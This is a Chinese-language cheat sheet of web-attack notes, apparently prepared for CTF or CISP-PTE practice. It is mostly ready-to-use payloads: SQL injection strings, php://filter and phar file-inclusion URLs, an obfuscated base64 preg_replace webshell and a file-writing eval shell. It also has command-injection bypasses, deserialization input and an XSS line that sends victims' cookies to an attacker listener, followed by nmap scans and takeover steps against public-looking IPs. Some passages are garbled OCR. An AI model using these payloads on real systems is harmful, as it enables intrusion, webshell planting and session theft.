

### sql注入


万能密码

’ ‘ or '1'='1'

admin' Oorr '1'='1

或者sqlmap跑


一次注入

```sql
insert user (uname,password),value('admin','pass')

insert user (uname,password),value($name,'pass')
insert user (uname,password),value('123',database()),('4456','pass')
1. 判断闭合方式
2. 插入到数据库
3. select 执行插入到语句

update()
delete()

insert into article(title author,description,content,dateline) values('aaaaa'aaaaa','aaaaa','aaaaaa', 1652576779)

                                                                      
insert into article (title,author,description,content,dateline) values('aaaaa','aaaaa','aaaaa','aaaaaa',1652576821)

insert into article(......) values('1','2','3','','')

title=d&author=b&description=c&content=a',1652577231),(database(),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


insert into article(title,author,description,content,dateline) values('d','b','c','a',1652577231),(database(),'a','b', 'a',1652577364)

title=d&author=b&description=c&content=a',1652577231),(version(),'a','b', 'a&button=%E6%8F%90%E4%BA%A4

title=d&author=b&description=c&content=a',1652577231),((select group_concat(table_name) from information_schema.tables where table_schema=database()),'a','b', 'a&button=%E6%8F%90%E4%BA%A4

title=d&author=b&description=c&content=a',1652577231),((select group_concat(column_name) from information_schema.columns where table_name="article"),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


1'union select 1,database(),3,4,5,6#


title=d&author=b&description=c&content=a',1652577231),((select/**/group_concat(column_name)/**/from information_schema.columns where table_name="article"),'a','b', 'a&button=%E6%8F%90%E4%BA%A4


title=d&author=b&description=c&content=database(),123) #,1652577231)&button=%E6%8F%90%E4%BA%A4
```


```
insert into article values('1','1','1','1')

直接上传两次数据，

insert into article values('1','1','1','1')('1','database()','xbw'),('1' ,(select group_ concat(table_ name) from information. schema.tables where table_ schema=database)

'1 ,(select group_ concat(XremarkX4354) from users1),' 1

insert into article values('1','2','3',4')

insert into article values('1','2','1','4'),('3',database(),'1',4')
爆库名
id:1
标题:2
内容:1','4'),('3',database(),'1
name:3


爆表
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='2web'),'3
name：4


爆列
id:1
标题：2',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='users1'),'4'),('1','2
内容：3
name：4

爆字段
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(XremarkX4354)/**/from/**/2web.users1),'3
name：4

```

insert into article values('1','2','**1','4'),('3',database(),'1**',4')
爆库名
id:1
标题:2
内容:1','4'),('3',database(),'1
name:3

insert into article values('1','2','3',4')

爆表
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='2web'),'3
name：4


爆列
id:1
标题：2',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='users1'),'4'),('1','2
内容：3
name：4

爆字段
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(XremarkX4354)/**/from/**/2web.users1),'3
name：4


2.

```
fu1.php?id=1')and/**/2=1%23

fu1.php?id=1')oorrder/**/by/**/1%23

/fu1.php?id=1')oorrder/**/by/**/5%23

fu1.php?id=1')ununionion/**/seselectlect/**/1,2,3,4%23

fu1.php?id=1.1')ununionion/**/seselectlect/**/1,load_file('/tmp/360/key'),3,4%23
```

2次注入

  insert 二次注入  insert into()

  php://        .php   phar

命令执行  关键字过滤 源代码 fuzzing  ||   无回显exec   有限字符执行  30    7  

1. 写马     echo     >  ls -t >    sh 
2. 缩短

登录框 有注册，找回密码

登录框，仅有登陆成功，显示用户名

```sql
register.php

email=b@qq.com&username=a&password=123


insert into user(email,username,password),(b@qq.com,'a',123)，('')

查询  以第一次注入为主

insert into user(email,username,password),(b@qq.com,'0' + 1 + '0',123)


select * from user where email=  and pass = 

select '0' + (ascii (substr((select database()) from 1 for 1))) + '0'  from user where ema

2,1


select '' select database()''  from user where ema

先注册 admin'# 
在注册一个带单引号的 #
在修改 admin‘#的密码 这样修改的就是admin的密码
```


```
select * from Article where uuid = '983fd952-df4e-4b63-946f-f2e6bb0327d6' and '1'='1'

过滤了-- 和#号
可以用 and '1'直接绕过，也可以用  ;%00 做截断
```


```
注册账号，发表文章
on抓包提取文章的链接
```


### 文件包含

先去访问这个包含的页面，是否是解析

五星推荐https://www.cnblogs.com/ichunqiu/p/10683379.html

1.伪协议

过滤一些关键字可以 双写，大小写

```ruby
index.php?page=php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/convert.base64-encode/resource=../key.php

>> filter/read=convert.base64-encode/resource=/etc/passwd

/index.php?page=phphp://p://filter/read=convert.base64-encode/resource=/etc/passwd

index.php?page=phphp://p://filter/read=convert.base64-encode/resource=../key.php
/index.php?page=pphp://hp://filter/read=convert.base64-encode/resource=../key.php

?phar


```

只能上传txt,但是有一个可以读取编译成php的文件

用phar的伪协议 要先进行压缩，ceshi.php变成压缩包再换成.txt

本质上还是zip压缩包所以用phar协议

http://150.158.88.26:10004/lfi.php?file=phar://files/GHABsTD1XQQRq8Q6.txt/ceshi


```
>> hello.txt
http://123.60.47.130:38893/start/index.php?page=hello

data伪协议或者远程文件包含
可以用data:text/plain,<?php phpinfo();?>
<?php system("cat ../key.php"); ?>.txt
```

小马

```php+HTML

<?php 
@$a = $_POST['Hello']; 
if(isset($a)){ 
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=')); 
} 
?>
Hello
<br>
Are you ok?

文件包含 ，此文件是小马
```


### 命令执行

https://zhuanlan.zhihu.com/p/391439312

#### 命令执行(RCE)面对各种过滤，骚姿势绕过总结

代码审计

看get还是post类型

可能会过滤key，用ke*   绕过命令执行   l's ''-la   c'a't

7$IFS$9. ./ke*

看看是否有一些过滤的执行函数

```shell
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);

#############

eval("\$o=strtolower(\"$a\");");

$o=strtolower("");system('ls');("");

eval("\$o=strtolower(\" ");system('ls');("     \");");

/index.php?a=");system('ls');("
a=${system("cat key4.php")}  这种是大变量形式
```

2.文件可解析为执行文件php

pre /e马**只能菜刀**

```
<?php 
@$a = $_POST['Hello']; 
if(isset($a)){ 
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=')); 
} 
?>
```

 preg_replace() /e代码执行漏洞

命令执行

```text
PHP代码执行函数：
eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()、等
PHP命令执行函数：
system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等
```

0x03借助命令Is 查看key的权限←
127.0. 0.1.& ‘|’
s-al.. . /var/www/htm | /key. ph*←
Content -Length: 181
-------------------- 1735104427133
Content-Di sposition: form-data: name=" cnd"
1 ngin
ncin
48 Oct 10 06:18 /var/ww/html/key. ph
27.0.0.1 &'I's -al /war/ww/html/key. Dh*
PIIG 127.0.0.1 (127.0. 0.1): 56 data bytes
--------------------310412713--
</pre>
</div>
《J
0x04借助命令chomod对key赋予读写执行权限←
→127.0.0. 1:&c’h’m’ o’d: 777: /var/www/htm l/ey. ph*-
-1735104427133
Content-Di sposition: form- data; name=" cmd'
一
127.0.0.1 & c'h'm'o'd 777 /var/ww/htm1/key. ph*
---1735104427133--
←
0x05借助命令Is 验证key的权限←

```
命令执行ping
1.判断管道符   ； | & || &&

2，绕过 127.0.0.1;l's  ../
有无权限 加  c'h'o'm'd 777
cat 过滤了用  cat  ./ke?.??


先复制权限

验证主机是否存活
用来读文件
http://123.60.47.130:8384/vulnerabilities/fu1.php
cmd=127.0.0.1

要对文件进行可读权限，

常用的绕过  ls 

```


### 文件上传


https://blog.csdn.net/weixin_43795682/article/details/118274320

1.文件上传后被修改了文件名，利用burp爆破

```php

$filename = $files["name"]; //456
 $randnum = rand(1, 99999);  //123
 $fullpath = '/' . md5($filename.$randnum).".".substr($filename,strripos($filename,'.') + 1); 
 
上传名字sqzr.php
 /md5(sqzr.php456123).php
 
 网站根目录
 /md5(文件全名+rand(1, 99999))
 上传后的名字
```

文件上传循环发包 先自己生成字典

```
for i in range(1,10000):
    print (i)
    
    
╭─hazel@hazeldeMacBook-Pro /tmp
╰─$ python 1.py > dic.txt
```

暴力破解


上级写马

```php
<?php fputs(fopen('../shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```


r

### 代码审计

反序列化

内存里面 ===》 硬盘  

序列化的操作 特定的字符串 可以存储在硬盘上  序列化的对象 --只序列化 变量  特定的格式

反序列化 == 〉 特殊的字符串 ==》 内存里面

```
<?php
error_reporting(0);
include "key4.php";
$TEMP = "Whatever is worth doing is worth doing well.";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo "$key4";
}
show_source(__FILE__); 
  
  
  str=s:44:"Whatever is worth doing is worth doing well.";
```


```php
class 123
{
    public __contruct()   // 魔术方法 __开头的  特定的条件下，自动执行，
    {
        $age = 19;
    }
    
}

<?php
class CallableClass 
{
    function __invoke($x) {
        var_dump($x);
    }
}
$obj = new CallableClass;
$obj(5);
var_dump(is_callable($obj));
?>

$a= new 123();
$a()
```

参考ctfshow256


```
<?php 

class ctfuser{ 
:"username";s:1:"a";s:8:"password";s:1:"b";s:5:"isVip";b:1;}

//O%3A7%3A%22ctfuser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A1%3A%22a%22%3Bs%3A8%3A%22password%22%3Bs%3A1%3A%22b%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```


### xss打cookie

评论留言页面

python启动简易服务器9999

1：攻击机起服务监听
python -m SimpleHTTPServer 9999

2:往攻击机插js语句

```
"><script>document.write('< img src="http://172.16.143.13:9999/?'+document.cookie+'" />')</script>

拿到sessin登录
或者seessino有key

```

```php
<?php
show_source(__FILE__);
$v1 = 0;
$v2 = 0;

$a = (array)json_decode(@$_GET['w']);

if (is_array($a)) {
    is_numeric(@$a["bar1"]) ? die("nope") : NULL;

    if (@$a["bar1"]) {
        var_dump($a["bar1"]);
        $ww=$a["bar1"] > 2020;
        var_dump($ww);
        ($a["bar1"] > 2020) ? $v1 = 1 : NULL;

    }

    if (is_array(@$a["bar2"])) {
        if (count($a["bar2"]) !== 5 OR !is_array($a["bar2"][0]))
            die("nope");
        $pos = array_search("cisp-pte", $a["bar3"]);
        $pos === false ? die("nope") : NULL;
        foreach ($a["bar2"] as $key => $val) {
            $val === "cisp-pte" ? die("nope") : NULL;
        }
        $v2 = 1;
    }
}

if ($v1 && $v2) {
    include("key.php");
    echo $key;
}
?>


http://123.60.47.130:10031/code1.php?w={"bar1":“2021w”  php弱类型
    "bar2":[[1],2,3,4,5]
"bar3":["cisp-pte"]
```


### 访问控制

```
失效的访问控制
请使用admin用户访问权限获取KEY

添加X-Forwarded-F
cookie中修改 base64 为admin

```


### 日志审计

admin.\*php.\*200

### 综合题目

IP地址



扫端口

扫目录

进入数据库

开启3389，防火墙放行


```
http://119.91.93.173/

1.端口扫描
nmap -sV -T5 -p 1434,1433,1025,8080,80 119.91.93.173

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 6.0
1025/tcp open  msrpc      Microsoft Windows RPC
1433/tcp open  ms-sql-s   Microsoft SQL Server 2005 9.00.1399; RTM
1434/tcp open  tcpwrapped
8080/tcp open  http       Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

22 ftp匿名登陆
浏览器ftp://ip可以访问后台页面
1433 sqlserver sa提权


2.扫描web目录
找敏感文件
是否有参数  可能包含文件包含或者注入漏洞

config 
phpinfo的web路径  script-filename的值

后台登陆页面

通过得到数据库连接密码得到key


3.登录后台
看有无上传的点
pdf文件和上传后的路径
上传后是否能解析，要结合文件解析
用绝对路径包含文件  用php://filter/convert.base64encode

4.连接上传shell
可以用xp_cmdshell  上传改后缀或者直接写马

```


```
http://123.60.47.130:58125/

1.401密码暴力破解
2.用burp爆破目录
3.访问robots.txt 得到key  User-agent: * Disallow: /news/
4.爆破目录加/news/
得到phpadmin目录

5.phpadmin写马
phpmyadmin中写马两种思路https://blog.csdn.net/qq_33942040/article/details/108577874

或者弱口令
得到key

菜刀和ant链接

ant连接不成功，要换编码器base编码，或者用菜刀

6.3389
上传3389bat
远程登录
得到key
```

